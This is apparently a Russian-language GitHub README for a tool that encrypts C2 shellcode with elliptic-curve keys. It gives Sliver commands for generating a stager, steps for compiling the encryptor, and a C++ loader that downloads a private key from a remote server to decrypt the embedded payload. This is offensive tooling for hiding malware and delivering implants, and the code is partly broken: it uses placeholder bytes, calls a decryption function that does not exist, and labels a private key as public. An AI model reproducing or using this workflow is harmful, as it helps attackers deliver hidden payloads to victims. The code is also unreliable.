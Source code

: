 ## Этот код поможет вам зашифровать свой shellcode с использованием метода эллиптических кривых.

**Requirements**
g++

if not install

```bash
apt install g++
```

openssl v3.1

sliver(or other c2)

libssl-dev 

```bash
libssl-dev
```

**Подготовка**
Сгенерируйте shellcode в формате **.bin.** Для этого вы можете использовать Bishop Fox Sliver в качестве C2, чтобы создать shellcode:

```bash
sliver> generate stager --lhost ip --lport 8443 --arch amd64 --format shellcode
```

При необходимости вы также можете использовать дополнительные параметры.

Сгенерируйте **.pem** ключи с помощью OpenSSL(prime256v1):

```bash
openssl ecparam -genkey -name prime256v1 -out new-ecc-private.pem
```
```bash
openssl ec -in new-ecc-private.pem -pubout -out new-ecc-public.pem
```

Клонируйте репозиторий с кодом для шифрования:


```bash
git clone github.com/wearetyomsmnv/ec_encoder_cpp
```

## Компиляция кода ##

Скомпилируйте код с помощью g++:

```bash
g++ ec_encoder.cpp -o encrypt_shellcode -lcrypto
```

## Запуск шифрования ##

**Запустите программу для шифрования:**

```bash
./encrypt_shellcode shellcode.bin new-ecc-private.pem new-ecc-public.pem
```

Где:

**shellcode.bin** - это файл с shellcode, полученный из Sliver (имя может отличаться).

**new-ecc-private.pem** - это открытый ключ.

**new-ecc-public.pem** - это открытый ключ.

## Как использовать это в реальном проекте ##

```c++
#include <iostream>
#include <openssl/evp.h>
#include <openssl/ec.h>
#include <openssl/err.h>
#include <openssl/pem.h>
#include <openssl/x509.h>
#include <curl/curl.h>

// Адрес сервера, предоставляющего .pem
static const char* SERVER_URL = "https://example.com/private-key.pem";

// Здесь должен быть ваш зашифрованный шеллкод
static const unsigned char encrypted_shellcode[] = {
    0xYY, 0xYY, 0xYY, ... // Зашифрованный шеллкод в формате байтов
};

// Функция обратного вызова для получения данных с сервера через libcurl
static size_t write_callback(void *contents, size_t size, size_t nmemb, void *userp) {
    std::string *buffer = reinterpret_cast<std::string*>(userp);
    size_t total_size = size * nmemb;
    buffer->append(static_cast<char*>(contents), total_size);
    return total_size;
}

int main() {
    OpenSSL_add_all_algorithms();
    ERR_load_crypto_strings();
    curl_global_init(CURL_GLOBAL_DEFAULT);

    // Инициализация сессии libcurl
    CURL *curl = curl_easy_init();
    if (!curl) {
        std::cerr << "Ошибка при инициализации сессии libcurl" << std::endl;
        return 1;
    }

    // Установка URL для запроса
    curl_easy_setopt(curl, CURLOPT_URL, SERVER_URL);

    // Создание буфера для хранения полученного PEM-файла
    std::string pem_data;

    // Установка функции обратного вызова для записи данных
    curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
    curl_easy_setopt(curl, CURLOPT_WRITEDATA, &pem_data);

    // Выполнение запроса
    CURLcode res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        std::cerr << "Ошибка при выполнении запроса: " << curl_easy_strerror(res) << std::endl;
        curl_easy_cleanup(curl);
        return 1;
    }

    // Закрытие сессии libcurl
    curl_easy_cleanup(curl);

    // Преобразование PEM-данных в структуру ключа
    BIO *bio = BIO_new_mem_buf(pem_data.c_str(), -1);
    EC_KEY *key = PEM_read_bio_ECPrivateKey(bio, nullptr, nullptr, nullptr);
    if (!key) {
        std::cerr << "Ошибка при чтении приватного ключа из PEM-данных" << std::endl;
        BIO_free(bio);
        return 1;
    }
    BIO_free(bio);

    // Расшифрование с использованием приватного ключа
    size_t encrypted_len = sizeof(encrypted_shellcode);
    unsigned char decrypted[1024]; // Буфер для расшифрованных данных
    int decrypted_len = ECIES_decrypt(key, encrypted_shellcode, encrypted_len, decrypted, sizeof(decrypted));

    // Вывод расшифрованных данных
    std::cout << "Decrypted Data:" << std::endl;
    for (int i = 0; i < decrypted_len; ++i) {
        std::cout << std::hex << (int)decrypted[i];
    }
    std::cout << std::endl;

    // Освобождение ресурсов
    EC_KEY_free(key);

    // Очистка библиотеки OpenSSL
    ERR_free_strings();
    curl_global_cleanup();

    return 0;
}


```
